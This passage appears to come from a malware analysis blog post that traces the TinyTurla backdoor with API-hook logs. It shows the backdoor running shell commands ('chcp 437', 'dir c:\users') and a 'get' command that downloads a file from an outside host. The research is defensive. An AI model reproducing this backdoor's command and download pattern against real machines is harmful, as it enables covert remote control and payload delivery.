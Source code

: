 ```html
[STR]              ""
[STR]              "Microsoft Windows [version 6.3.9600]"
[STR]              "(c) 2013 Microsoft Corporation. Tous droits r‚serv‚s."
[STR]              ""
[STR]              "C:\Windows\system32>chcp 437 > NUL"
[STR]              ""
[STR]              "C:\Windows\system32>dir c:\users"
[STR]              " Le volume dans le lecteur C n'a pas de nom."
[STR]              " Le num‚ro de s‚rie du volume est 689B-5BB9"
[STR]              ""
[STR]              " R‚pertoire de c:\users"
[STR]              ""
[STR]              "21/10/2024  23:42    <DIR>          ."
[STR]              "21/10/2024  23:42    <DIR>          .."
[STR]              "22/08/2013  16:36    <DIR>          Public"
[STR]              "03/03/2025  14:32    <DIR>          user"
[STR]              "               0 fichier(s)                0 octets"
[STR]              "               4 R‚p(s)  47ÿ973ÿ212ÿ160 octets libres"
[STR]              ""
[STR]              "C:\Windows\system32>exit"
[STR]              ""
[STR]              "-----"
[PAR] DWORD     dwNumberOfBytesToWrite   : 0x2fc
[PAR] LPDWORD   lpdwNumberOfBytesWritten : 0x000000E45FF8F640
[RET] 0x7fff33b8d3f2 in [tinyturla.dll]

```

As one can see, the malware is forcing the code page 437 (suitable for English / German / Swedish) to be used.

---  

# Second command : GET Remote File  

I've chosen to make the malware download and save a a little poem through the following order :  

get https://hanagram.jp/wp/wp-content/The%20New%20Colossus.txt Liberty.txt

which triggered the following behavior :  

```html
[ * ] [pid 0x250][tid 0x990] c:\windows\system32\svchost.exe
[API] <WinHttpReadData> in [WINHTTP.dll] 
[PAR] HINTERNET hRequest              : 0x60685470
[PAR] LPVOID    lpBuffer              : 0x000000E4601B88B0
[PAR] DWORD     dwNumberOfBytesToRead : 0x4e
[PAR] LPDWORD   lpdwNumberOfBytesRead : 0x000000E45FF8F644
[RET] 0x7fff33b8b844 in [tinyturla.dll]

[ * ] [pid 0x250][tid 0x990] c:\windows\system32\svchost.exe
[API] <WinHttpReadData>
[PAR] LPCVOID lpBuffer : 0x000000E4601B88B0
[STR]         -> "rsp:get https://hanagram.jp/wp/wp-content/The%20New%20Colossus.txt Liberty.txt"
[RES] BOOL 0x1

[...]

[ * ] [pid 0x250][tid 0x410] c:\windows\system32\svchost.exe
[API] <WinHttpConnect> in [WINHTTP.dll] 
[PAR] HINTERNET     hSession       : 0x60669e70
[PAR] LPCWSTR       pswzServerName : 0x000000E460681B70
[STR]               -> "hanagram.jp"
[PAR] INTERNET_PORT nServerPort    : 443
```